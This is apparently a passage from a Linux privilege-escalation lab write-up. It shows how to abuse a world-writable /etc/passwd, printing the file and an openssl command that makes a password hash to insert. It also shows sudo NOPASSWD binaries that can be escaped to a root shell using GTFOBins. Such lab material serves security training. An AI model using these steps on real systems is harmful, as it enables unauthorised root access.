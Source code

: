 `$ su root`


### Weak File Permissions -Writable /etc/passwd

```
user@debian:~/tools/mysql-udf$ ls -l /etc/passwd
-rw-r--rw- 1 root root 1009 Aug 25  2019 /etc/passwd
user@debian:~/tools/mysql-udf$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
Debian-exim:x:101:103::/var/spool/exim4:/bin/false
sshd:x:102:65534::/var/run/sshd:/usr/sbin/nologin
user:x:1000:1000:user,,,:/home/user:/bin/bash
statd:x:103:65534::/var/lib/nfs:/bin/false
mysql:x:104:106:MySQL Server,,,:/var/lib/mysql:/bin/false

user@debian:~/tools/mysql-udf$ openssl passwd -1 -salt new thispass123
$1$new$oVt//Z5vJpfXixLNy6fIL.
```

### Sudo - Shell Escape Sequences (Use GTFOBins)

```
$ sudo -l
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH

User user may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more
```
### This is the easiest approach to perform PrivEsc with sudo to spawn a root shell without password
### due to misconfigurations. A life lesson for a pentester/hacker always use GTFOBins as helpful